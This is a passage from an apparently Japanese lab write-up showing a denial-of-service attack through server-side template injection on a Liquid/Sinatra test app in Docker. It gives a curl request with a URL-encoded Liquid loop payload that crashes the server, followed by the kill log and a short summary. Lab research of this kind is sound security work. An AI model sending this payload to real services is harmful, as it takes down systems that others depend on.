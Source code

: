 　サーバを起動します。

<div class="md-code" style="width:100%">

```
# docker-compose up
[+] Running 1/0
 ⠿ Container liquid-erb-ssti-app-1  Created
Attaching to liquid-erb-ssti-app-1
liquid-erb-ssti-app-1  | [2023-07-15 08:32:36] INFO  WEBrick 1.6.1
liquid-erb-ssti-app-1  | [2023-07-15 08:32:36] INFO  ruby 2.7.8 (2023-03-30) [x86_64-linux]
liquid-erb-ssti-app-1  | == Sinatra (v3.0.6) has taken the stage on 4567 for development with backup from WEBrick
liquid-erb-ssti-app-1  | [2023-07-15 08:32:36] INFO  WEBrick::HTTPServer#start: pid=7 port=4567

```

</div>


- ２. ターミナル（攻撃者）

　先の検証よりループ回数を増やしたテンプレートをインジェクションします。  

<div class="md-code" style="width:100%">

```
# curl 'http://xxx.yyy.zzz.221:4567/liquid?name=%7B%25+for+i+in+%281..10000000000%29+%25%7D%0D%0A%7B%25+assign+hoge+%3D+i+%25%7D%0D%0A%7B%25+endfor+%25%7D'
curl: (52) Empty reply from server
```

</div>


- ３. ターミナル（標的）

　しばらくすると、サーバが落ちました。

<div class="md-code" style="width:100%">

```
liquid-erb-ssti-app-1  | Killed
liquid-erb-ssti-app-1 exited with code 137
```

</div>

　これでサーバサイド・テンプレート・インジェクション経由の DoS でシステムを落とすことができることを確認できました。 

## まとめ

- 機能が絞られているテンプレートエンジンのSSTIでも可用性の面で大きな影響を与えることができる。
  - 任意のファイル読み込みなどは難しそう。
- <span class="m-y">私は本検証で用いたテンプレート詳しくないので他に攻撃方法はあるかもしれない。（知っていたら是非ご教示を。）</span>
